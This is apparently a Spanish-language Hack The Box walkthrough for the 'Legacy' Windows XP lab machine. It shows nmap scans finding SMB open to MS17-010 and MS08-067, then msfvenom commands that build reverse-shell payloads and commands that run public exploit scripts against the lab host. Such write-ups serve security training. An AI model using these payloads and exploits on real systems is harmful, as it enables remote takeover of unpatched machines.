 # Legacy ![Avatar](https://www.hackthebox.eu/storage/avatars/60dc190c4c015cfe3a3aef9b5afca254_thumb.png)     

### Initial Scan

```nmap
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h27m50s, deviation: 2h07m16s, median: 4d22h57m50s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:57:05 (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2020-08-02T21:04:14+03:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```
### Enumeration

Busquemos vulnerabilidades asociadas a los puertos abiertos
```bash
sudo nmap -p 445 --script vuln 10.10.10.4
```
```
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|_smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
```

### Exploit

#### MS17-010

Utilizaremos el script de send_and_execute de este repositorio
```web
https://github.com/helviojunior/MS17-010/blob/master/send_and_execute.py
```
Generamos una reverse shell para windows en formato ejecutable
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT EXITFUNC=thread -f exe -a x86 — platform windows -o rev_shell.exe
```
Ejecutamos el script mencionado arriba
```bash
python2.7 send_and_execute.py 10.10.10.4 rev_shell.exe
```
#### MS08-67

Utilizaremos el siguiente script para la explotación
```
https://github.com/andyacer/ms08_067
```
Generamos el payload necesario para la reverse shell
```
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```
Sustituimos este en la parte correspondiente del exploit`y lo lanzamos
```
python ms08_067_2018.py 10.10.10.4 6 445
```
Y ya estaría
